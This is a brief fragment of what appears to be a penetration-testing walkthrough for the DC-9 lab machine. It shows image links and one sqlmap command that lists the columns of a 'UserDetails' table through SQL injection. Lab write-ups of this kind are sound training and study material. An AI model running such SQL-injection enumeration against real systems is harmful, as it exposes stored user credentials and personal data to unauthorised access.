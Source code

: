 ![image-20230811195951499](./imgs/image-20230811195951499.png)

```bash
sqlmap -r dc9.txt -D users -T UserDetails --columns --batch
```

![image-20230811200027460](./imgs/image-20230811200027460.png)
